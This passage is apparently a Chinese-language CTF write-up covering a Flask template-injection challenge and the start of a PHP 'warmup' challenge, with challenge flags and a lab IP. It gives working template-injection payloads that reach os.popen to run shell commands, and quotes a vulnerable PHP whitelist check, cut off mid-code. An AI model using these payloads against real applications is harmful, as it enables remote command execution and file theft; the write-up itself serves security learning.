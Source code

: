 ctf{b17bd4c7-34c9-4526-8fa8-a0794a197013}

### Web_python_template_injection

1. python模板注入，查阅pythonflask模板注入漏洞，指的是没有对用户输入做出过滤，导致用户输入被python解释器解析，用户可以凭借python的类方法，随意调用其中的对象及其功能
2. 输入：[61.147.171.105:61607/%7B%7B2+2%7D%7D](http://61.147.171.105:61607/%7B%7B2+2%7D%7D)
   出现数字4，2+2被解析
3. 基于python强大的内置类方法，有多种payload可行
   可调用os模块可执行系统命令
   payload：

   ```python
   ''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()
   ''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()
   ```

   `__class__`:返回字符串所属的对象

   `__mro__[2]`:返回基类object

   `__subclasses__()[71]`:返回object下的子类列表，选取71个对象，<class 'site._Printer'>，

   `__init__.__globals__['os']`:调用__init__初始化os模块

   `popen('cmd').read()`:调用执行任意系统命令，popen返回的是命令执行的结果，而system返回的是执行后的状态码

ctf{f22b6844-5169-4054-b2a0-d95b9361cb57}

### warmup

1. 页面只有一个滑稽哥，F12查看源代码，发现source.php
2. 访问得到源代码：

   ```php
   <?php
       highlight_file(__FILE__);
       class emmm
       {
           public static function checkFile(&$page)
           {
               $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
               if (! isset($page) || !is_string($page)) {
                   echo "you can't see it";
                   return false;
               }

               if (in_array($page, $whitelist)) {
                   return true;
               }

               $_page = mb_substr(
                   $page,
                   0,
                   mb_strpos($page . '?', '?')
               );
               if (in_array($_page, $whitelist)) {
                   return true;
               }

               $_page = urldecode($page);
               $_page = mb_substr(
                   $_page,
                   0,
                   mb_strpos($_page . '?', '?')
               );
               if (in_array($_page, $whitelist)) {
                   return true;
               }
   ```